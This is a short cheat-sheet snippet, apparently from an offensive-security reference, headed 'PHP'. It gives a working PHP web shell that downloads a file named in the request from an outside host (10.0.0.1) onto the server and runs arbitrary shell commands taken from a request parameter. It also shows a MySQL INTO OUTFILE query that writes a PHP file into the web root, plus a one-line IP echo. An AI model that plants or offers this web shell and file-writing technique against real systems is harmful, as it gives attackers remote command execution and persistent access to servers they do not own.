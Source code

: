 ## PHP

### File upload and command execution
```php
<?php if (isset($_REQUEST['fupload'])) {
	file_put_contents($_REQUEST['fupload'],
	file_get_contents('http://10.0.0.1/' . $_REQUEST['fupload']));
};
if (isset($_REQUEST['fexec'])) {
	echo '<pre>' . shell_exec($_REQUEST['fexec']) . '</pre>';
} ?>
```

### Echo IP Address
`<?php echo $_SERVER["REMOTE_ADDR"];`

### MySQL
`SELECT "<?phpinfo()" into OUTFILE "/var/www/html/infox.php"
